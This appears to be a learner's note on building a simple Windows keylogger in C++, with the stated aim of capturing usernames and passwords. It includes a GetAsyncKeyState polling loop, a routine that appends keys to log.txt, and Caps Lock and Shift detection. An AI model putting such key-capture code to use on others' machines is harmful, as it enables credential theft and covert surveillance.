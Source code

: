 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### void startLogging();
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

### void save(const string& input);
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
bool isCapsLock() { 
	return (GetKeyState(VK_CAPITAL) & 1) != 0; 
}
```

``GetKeyState(VK_SHIFT)`` Returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.
```c++
bool isShift() { 
	return (GetKeyState(VK_SHIFT) & 0x8000) != 0; 
}
```